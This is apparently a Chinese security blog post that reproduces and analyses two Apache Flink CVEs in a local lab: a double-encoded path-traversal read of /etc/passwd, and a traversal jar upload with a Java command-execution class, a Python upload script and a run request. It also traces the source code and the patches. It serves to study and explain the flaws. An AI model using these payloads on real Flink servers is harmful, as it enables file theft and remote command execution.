# 环境搭建

这里选择`Flink-1.11.2`版本：[https://archive.apache.org/dist/flink/flink-1.11.2/](https://archive.apache.org/dist/flink/flink-1.11.2/)。

解压缩后，修改配置文件`conf/flink-conf.yaml`中`jobmanager.rpc.address`参数为本地服务器`IP`地址。

修改`bin/config.sh`文件，为`DEFAULT_ENV_PID_DIR`指定为新建的路径，这是因为`Flink`启动时会把启动的进程`ID`存到一个文件中，默认是`/tmp`下，由于是临时目录，会被系统清理，存放的进程`ID`会找不到，从而导致无法关闭集群



在`conf/flink-conf.yaml`中添加远程调试参数

```
# 远程调试
env.java.opts.jobmanager: "-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5006"
#  taskmanager debug端口
env.java.opts.taskmanager: "-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005"
# 设置cliFrontend 客户端的debug端口
env.java.opts.client: "-agentlib:jdwp=transport=dt_socket,server=y,suspend=y,address=5008"

rest.connection-timeout: 360000000
rest.idleness-timeout: 360000000
```



通过`./bin/start-cluster.sh` 启动


访问8081端口



# CVE-2020-17519

Apache Flink REST API 任意文件读取漏洞

## 漏洞复现

```
http://192.168.0.106:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```



## 漏洞分析

补丁链接：https://github.com/apache/flink/commit/b561010b0ee741543c3953306037f00d7a9f0801



修复方式就是在获取filename 的时候多进行了一层处理，根据上面给出的poc，读到了readme



在JobManagerCustomLogHandler的修复处下断点，通过getPathParameter来获取的文件名





pathParameters是一个HashMap，里面已经存法了相应的值，返回后通过value创建了一个File对象返回



当得到的file不为空的时候，调用transferFile来读取文件内容响应到页面



但是还有个问题，前面获取到的filename是怎么来的，为什么可以用二次编码绕过

根据调用栈找到了org.apache.flink.runtime.rest.handler.router#RouterHandler的channelRead0方法



通过`QueryStringDecoder.Path()`对uri进行了一次url解码，这是第一次解码，然后通过Router.route得到了routeResult，可以看到pathParams已经是明文格式了，第二次解码在router.route方法中



通过decodePathTokens对path进行url解码，在这个方法中如果是/的话会截断，所以需要用到二次编码，传入编码形式不会截断



在调用getFile前，看到其中的handlerRequest里面的pathParameters是从routedRequest中取出的pathParams



## 漏洞修复



采用的是File.getName()进行修复的

# CVE-2020-17518 

Apache Flink 任意文件写入漏洞配合命令执行

## 漏洞复现

```
import java.io.InputStream;
import java.util.Scanner;

public class Execute {
    public static void main(String[] args) throws Exception {
    	String cmd = args[0];
        try {
            if (cmd != null) {
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }

                String[] command = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("DawnT0wn");
                String output = scanner.hasNext() ? "\n" + scanner.next() : "";
                throw new Exception((output));
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

恶意类需要有一个main方法然会报错



将恶意类打包成jar包，获取`Flink`运行目录，访问通过接口`/jobmanager/config`可以获取`web.tmpdir`的路径



通过python上传jar包

```
import requests
url = 'http://192.168.0.106:8081/jars/upload'

files = {
    'file': ('../../../../../../../../../../../../../../../../../..//var/folders/_m/lxb5372x7jq092qmqz5hpj_r0000gp/T/flink-web-94eb2c78-8c49-4dba-b82f-fb521fde9296/flink-web-upload/Execute.jar', open(r'Execute.jar','rb'), 'form-data;name="jarfile"')
}

r = requests.post(url, files=files)
print(r.text)
```

通过POST请求`/jars/Execute.jar/run?entry-class=Execute&program-args=%22open%20-a%20Calculator%22`执行恶意类



## 漏洞分析

补丁链接：https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4#diff-7920624ff6651ac9897c79309c0a94073a4e7afb111e926c8341492f3a730051



修改的获取文件名的方式，当上传文件的时候，通过resolve方法传入fileName得到了一个Path对象




这里通过系统来调用不同的getPath


因为上传路径开头不为`/`，因此会进一步处理，然后进入到UnixPath的resolve方法



继续用resolve方法处理，用`System.arraycopy`将上传路径与系统路径进拼接，变量`dest`存储拼接后的上传路径





调用fileUpload.renameTo进行处理



调用File的renameTo方法，在这个方法中调用了UnixFileSystem生成缓存文件到目标路径下



这样就实现了任意文件写入，对于命令执行的原因是因为flink支持上传一个jar包，并且执行jar包内的类，携带参数




## 补丁分析

这个漏洞的补丁仍然是通过File.getName()来防止的目录穿越符

